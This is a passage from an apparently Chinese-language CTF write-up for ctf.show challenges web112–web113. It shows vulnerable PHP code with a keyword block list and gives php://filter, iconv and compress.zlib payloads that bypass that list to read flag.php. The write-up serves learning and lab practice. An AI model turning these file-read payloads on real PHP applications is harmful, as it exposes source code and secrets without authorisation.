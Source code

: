 ```php
        die("hacker!");
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(!is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```

这题考察的是php伪协议，虽然被ban了data、input 等伪协议，又ban了 string、data、rot13 相关的过滤器，但是还是有不少能用的伪协议和过滤器

如 php://filter（这里也用不到过滤器）

```
https://c9c112c8-f426-4008-9e05-712cff76e02c.challenge.ctf.show/?file=php://filter/resource=flag.php
```

其他

```
php://filter/convert.iconv.UCS-2LE.UCS-2BE/resource=flag.php
php://filter/read=convert.quoted-printable-encode/resource=flag.php
compress.zlib://flag.php
```

**为什么不能直接输入flag.php呢?**

```
if(!is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```

那是因为is_file("flag.php")==true，输出hacker！



#### web113

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-30 23:47:52

*/

highlight_file(__FILE__);
error_reporting(0);
function filter($file){
    if(preg_match('/filter|\.\.\/|http|https|data|data|rot13|base64|string/i',$file)){
        die('hacker!');
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
```